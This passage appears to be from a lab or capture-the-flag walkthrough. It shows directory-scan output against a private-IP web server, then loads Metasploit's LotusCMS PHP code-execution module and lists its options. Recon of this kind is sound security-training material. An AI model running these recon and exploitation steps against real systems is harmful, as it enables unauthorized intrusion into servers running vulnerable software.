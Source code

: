 ---- Entering directory: http://192.168.118.182/core/view/ ----
+ http://192.168.118.182/core/view/index.php (CODE:200|SIZE:0)                                                         

---- Entering directory: http://192.168.118.182/gallery/photos/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.182/gallery/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.182/phpmyadmin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.182/phpmyadmin/lang/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.182/phpmyadmin/scripts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.118.182/phpmyadmin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Fri May 19 11:11:36 2017
DOWNLOADED: 46120 - FOUND: 17
root@kali:~#




Hitting the webpage shows goats and a login page.  The login page is powered by LotusCMS.  Lets fireup Metasploit and use the precanned exploit.

msf > use exploit/multi/http/lcms_php_exec
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0
